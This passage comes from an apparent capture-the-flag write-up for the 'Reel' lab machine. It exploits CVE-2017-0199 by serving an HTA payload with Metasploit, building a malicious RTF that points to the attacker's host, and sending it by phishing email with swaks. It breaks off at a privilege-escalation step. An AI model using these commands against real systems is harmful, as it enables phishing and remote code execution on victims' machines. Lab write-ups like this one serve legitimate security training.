 [https://github.com/bhdresh/CVE-2017-0199](https://github.com/bhdresh/CVE-2017-0199)

- Creating hta payload

```bash
use windows/misc/hta_server
set lhost tun0
set srvhost tun0
set lport 4444
run
```

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reel%20Box%2077ebbf76f666408a8f839e4db867b034/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reel%20Box%2077ebbf76f666408a8f839e4db867b034/Untitled%208.png)

- Next we'll be creating the malicious rtf file :

**python cve-2017-0199_toolkit.py -M gen -t rtf -w jake.rtf -u '[http://10.10.14.8:80/5TktJBtnZ.hta](http://10.10.14.8/5TktJBtnZ.hta)'**

- Next we'll be sending the mail to nico@megabank.com using swaks as we saw smtp port was open :

**swaks --server 10.10.10.77 --from [enox@megabank.com](mailto:enox@megabank.com) --to [nico@megabank.com](mailto:nico@megabank.com) --header "Please click" --body "Here is the document you requested [http://10.10.14.8:80/5TktJBtnZ.hta](http://10.10.14.8/5TktJBtnZ.hta)" --attach jake.rtf**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reel%20Box%2077ebbf76f666408a8f839e4db867b034/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reel%20Box%2077ebbf76f666408a8f839e4db867b034/Untitled%209.png)

---

### Privilege Escalation to tom

⇒ There is cred.xml that is encrypted with PS.Credentials :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reel%20Box%2077ebbf76f666408a8f839e4db867b034/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reel%20Box%2077ebbf76f666408a8f839e4db867b034/Untitled%2010.png)
